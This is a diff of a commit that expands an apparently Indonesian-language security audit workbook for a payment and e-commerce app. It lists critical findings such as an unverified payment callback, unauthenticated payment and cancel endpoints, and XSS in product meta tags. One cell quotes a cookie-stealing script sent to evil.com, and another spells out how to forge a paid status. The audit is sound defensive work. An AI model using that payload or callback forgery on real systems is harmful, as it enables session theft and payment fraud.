

Before and after one commit to Alfanza666/SPSCORNERNEW, an Excel workbook: docs/AUDIT-v5.16.2.xlsx, sheet Critical, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
docs: audit report full detail — 68 temuan dengan deskripsi, dampak, jika diubah, jika tidak

```diff
--- a/docs/AUDIT-v5.16.2.xlsx (sheet Critical)
+++ b/docs/AUDIT-v5.16.2.xlsx (sheet Critical)
-column E (Fix), rows 2-8: Reject callback yang tidak punya signature | Sanitize semua input yang di-inject ke HTML | Hapus flag | Tambahkan requireAuth + requireRole | Tambahkan auth check | Import requireAuth dari middleware | Gabungkan ke satu operasi atomic
+column E (Jika Diperbaiki), rows 2-8: Callback hanya diterima jika signature valid. Attacker tidak bisa memalsukan pembayaran. Transaksi hanya lunas jika iPaymu benar-benar mengonfirmasi pembayaran. | Semua input di-sanitize sebelum di-inject ke HTML. Nama produk tetap tampil normal, tapi script injection tidak mungkin. | Security checks aktif. API key tetap aman di server-side. Risiko exposure berkurang drastis. | Hanya user login yang bisa mengakses. Attacker tidak bisa memanipulasi pembayaran user lain. | Hanya owner transaksi yang bisa cancel. Data integrity terjaga. | Hanya admin yang bisa melihat data reconciliation. Data sensitif terlindungi. | Operasi digabung dalam satu transaction atomik. Jika ada yang gagal, semua di-rollback. Data konsisten.
+column F (Jika TIDAK Diperbaiki), rows 2-8: Setiap transaksi bisa "dibayar" palsu. Attacker bisa beli produk apapun tanpa bayar. Kerugian finansial langsung (produk hilang + uang tidak masuk). | XSS tetap aktif. Satu produk malicious bisa mencuri session ribuan user. Reputasi platform rusak permanen. | Risiko API key exposure tetap ada. Jika refactor salah, attacker bisa burn quota Groq API kita. | Semua transaksi bisa dimanipulasi. User A bisa bayar pakai points user B. Kerugian finansial masif. | IDOR — transaksi bisa dicancel oleh siapapun. Bisa digunakan untuk sabotase pesaing atau fraud. | Data internal ter-expose. Attacker bisa mengetahui kelemahan sistem dan mengeksploitasinya. | Race condition tetap ada. Periodic mismatch terjadi. Perlu manual reconciliation terus-menerus.
-C2 (Masalah): iPaymu Callback Signature Tidak Diverifikasi
+C2 (Masalah): Endpoint `/api/payments/ipaymu/callback` tidak memverifikasi HMAC signature dari request. iPaymu mengirim callback dengan signature di header `X-Signature`, tapi kode hanya memproses body tanpa validasi apakah signature benar. Artinya, siapapun bisa mengirim POST ke endpoint ini dengan body palsu untuk menandai transaksi sebagai "paid" tanpa benar-benar membayar.
-D2 (Dampak): …memalsukan konfirmasi pembayaran
+D2 (Dampak): …memalsukan konfirmasi pembayaran. Cukup kirim POST ke `/api/payments/ipaymu/callback` dengan `external_id` yang valid dan status `berhasil`, maka transaksi akan ditandai lunas, stok produk terpotong, dan seller balance terkredit — tanpa uang masuk.
-C3 (Masalah): XSS via Product Names di OG Tags
+C3 (Masalah): Product names dari database di-inject langsung ke HTML meta tags (og:title, og:description) tanpa sanitization. Jika admin memasukkan nama produk seperti <script>document.location='https://evil.com/?c='+document.cookie</script>, script ini akan executing saat link dibagikan di WhatsApp/Telegram/social media.
-D3 (Dampak): …di browser user
+D3 (Dampak): …di browser siapapun yang membuka link produk. Cookie session bisa dicuri, akun bisa di-takeover. Kerentanan ini scalable: cukup 1 produk malicious, bisa menyebar ke ribuan user yang membuka link.
-C4 (Masalah): dangerouslyAllowBrowser: true di Groq SDK
+C4 (Masalah): Inisialisasi Groq SDK menggunakan `dangerouslyAllowBrowser: true`. Flag ini menonaktifkan security checks yang mencegah API key exposure di client-side. Meskipun server-side, flag ini berbahaya karena menunjukkan arsitektur yang tidak aman.
-D4 (Dampak): API key exposure risk + disabled security checks
+D4 (Dampak): Jika kode ini refactor ke client-side (atau server-side rendering yang salah), API key Groq akan ter-expose. Groq API key bisa digunakan attacker untuk menjalankan AI requests yang dibayar oleh kita.
-C5 (Masalah): Payment Endpoints Tanpa Auth
+C5 (Masalah): 5 payment endpoints tidak memiliki auth middleware: `POST /payments` (create), `POST /payments/receipt` (verify), `GET /payments/:id` (status), `POST /payments/points` (points pay), `POST /payments/balance` (balance pay). Endpoint ini bisa diakses tanpa login.
-D5 (Dampak): Siapapun bisa buat pembayaran, verify receipt, habiskan points
+D5 (Dampak): Siapapun bisa: (1) membuat pembayaran untuk user lain, (2) verify receipt palsu, (3) cek status pembayaran user lain, (4) bayar pakai points/balance user lain. Ini adalah IDOR vulnerability yang bisa dieksploitasi massal.
-C6 (Masalah): Transaction Cancel Tanpa Auth (IDOR)
+C6 (Masalah): Endpoint `POST /transactions/:id/cancel` tidak memverifikasi siapa yang membatalkan. Cukup dengan ID transaksi yang diketahui (dari URL/inspeksi), siapapun bisa membatalkan transaksi pending milik user lain.
-D6 (Dampak): Siapapun bisa cancel transaksi pending
+D6 (Dampak): Attacker bisa membatalkan transaksi pending yang sedang dalam proses pembayaran. Jika user sudah transfer tapi transaksi dicancel sebelum callback, stok produk bisa hilang sementara uang sudah terkirim.
-C7 (Masalah): Auth Bypass di Diagnostics Route
+C7 (Masalah): Route `GET /api/admin/reconciliation/status` tidak menggunakan `requireAuth` dari middleware auth. Route ini seharusnya hanya bisa diakses admin, tapi bisa diakses publik.
-D7 (Dampak): Admin endpoint bisa diakses publik
+D7 (Dampak): Data sensitif ter-expose: jumlah mismatches, total kerugian, status reconciliation, seller balance discrepancies. Attacker bisa memanfaatkan informasi ini untuk exploit.
-B8 (File): src/routes/payments.ts
+B8 (File): src/routes/payments.ts (multiple)
-C8 (Masalah): Non-Atomic Payment Flows
+C8 (Masalah): Beberapa payment flow memisahkan status update dan stock deduction menjadi operasi terpisah. Jika crash terjadi di antara keduanya, status berubah tapi stock tidak terpotong (atau sebaliknya).
-D8 (Dampak): Jika crash antara status update dan stock deduction
+D8 (Dampak): Data inconsistency: transaksi terlihat "paid" tapi stok tidak berkurang. Seller tidak mendapat uang tapi produk sudah "terjual". Atau sebaliknya: stok terpotong tapi status tetap "pending".
```
Also changed, not shown: 16 edited cells elsewhere in this sheet, sheet Major, sheet Minor, sheet Silent, sheet Summary, sheet Priority Fix, 3 other files.
